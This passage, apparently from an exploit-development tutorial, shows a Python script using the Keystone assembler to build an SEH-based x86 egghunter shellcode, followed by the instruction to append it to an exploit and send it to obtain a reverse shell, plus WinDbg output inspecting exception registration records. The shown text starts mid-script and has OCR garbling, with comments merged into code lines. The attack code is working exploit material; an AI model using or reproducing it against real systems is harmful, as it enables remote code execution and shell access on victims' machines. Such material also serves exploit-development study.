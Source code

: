 ```python
 # check for signature again  
" jmp is_egg ;"  
" get_seh_address: "  
 # call to a higher address to avoid null bytes & push  
 # return to obtain egghunter position" call build_exception_record ;"  
 # push 0x0c onto the stack  
" push 0x0c ;"  
 # pop the value into ecx  
" pop ecx ;"  
 # mov into eax the pointer to the CONTEXT  
 # structure for our exception" mov eax, [esp+ecx] ;"  
 # mov 0xb8 into ecx which will act as an  
 # offset to the eip" mov cl, 0xb8 ;"  
 # increase the value of eip by 0x06 in our CONTEXT  
 # so it points to the "or bx, 0xfff" instruction # to increase the memory page" add dword ptr ds:[eax+ecx], 0x06 ;"  
 # save return value into eax  
" pop eax ;"  
 # increase esp to clean the stack for our call  
" add esp, 0x10 ;"  
 # push return value back into the stack  
" push eax ;"  
 # null out eax to simulate  
 # ExceptionContinueExecution return" xor eax, eax ;"  
 # return  
" ret ;"  
)  
# Initialize engine in 32bit mode  
ks = Ks(KS_ARCH_X86, KS_MODE_32)  
encoding, count = ks.asm(CODE)  
egghunter = ""  
for dec in encoding:  
 egghunter += "\\x{0:02x}".format(int(dec)).rstrip("\n")  
  
print("egghunter = (\"" + egghunter + "\")")
```

After checking no null bytes, append the egghunter instead of the classical egghunter and send the exploit. You should get a reverse shell:

```c
0:009> !teb
TEB at 00399000
    ExceptionList:        022dff60
    StackBase:            022e0000
    StackLimit:           022dc000
    SubSystemTib:         00000000
    FiberData:            00001e00
    ArbitraryUserPointer: 00000000
    Self:                 00399000
    EnvironmentPointer:   00000000
    ClientId:             000012e0 . 00001904
    RpcHandle:            00000000
    Tls Storage:          00000000
    PEB Address:          0038f000
    LastErrorValue:       0
    LastStatusValue:      0
    Count Owned Locks:    0
    HardErrorMode:        0

// NO CUSTOM HANDLERS. EXCEPTION GOING TO BE HANDLED WITH DEFAULT HANDLER.
0:009> dt _EXCEPTION_REGISTRATION_RECORD 022dff60
ntdll!_EXCEPTION_REGISTRATION_RECORD
   +0x000 Next             : 0x022dffcc _EXCEPTION_REGISTRATION_RECORD
```
